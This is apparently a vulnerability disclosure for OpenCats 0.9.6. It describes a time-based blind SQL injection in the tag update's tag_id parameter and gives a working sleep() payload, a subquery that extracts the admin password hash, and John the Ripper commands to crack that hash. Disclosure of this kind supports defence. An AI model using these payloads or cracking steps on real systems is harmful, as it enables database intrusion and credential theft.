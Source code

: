 # SQL injection vulnerability in OpenCats 'Tag' update functionality.

OpenCats version 0.9.6 PHP7.2 suffers from SQL injection vulnerability. This allows attackers control over the application's database.

User has control over tag_id variable, which allows SQL injection in UPDATE statement via time-based/blind techniques.

Application builds the following query:  
`UPDATE tag SET title = 'Title', description = 'Description' WHERE tag_id = XXX AND site_id = 1;`

User has control over XXX part.  

`1337 OR 1337=(select IF(substr(database(),1,1)='a',(select sleep(3)), (select sleep(1)))))`  

With this payload, application will sleep for 3 seconds for every entry inside original table if the database() query result starts with 'a', otherwise
it will sleep for one second.

With this time-based blind technique, attacker is able to exfiltrate any information from the database by querying many YES/NO questions 
to the database and intelligently measuring response times.

# POC
This proof of concept exfiltrates administrator user's password hash:   
`(select password from user where user_id=1)`

![PoC](https://user-images.githubusercontent.com/57464251/193683971-60bceb48-21fe-49fb-8a1d-d522383b8ec0.png)

### Bonus, let's crack the hash
`echo "21232f297a57a5a743894a0e4a801fc3" > hash.txt`  
`john --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-MD5 hash.txt`  

![crack](https://user-images.githubusercontent.com/57464251/193689052-cff2b570-87d5-452d-b2d5-be9f0c80df9f.png)

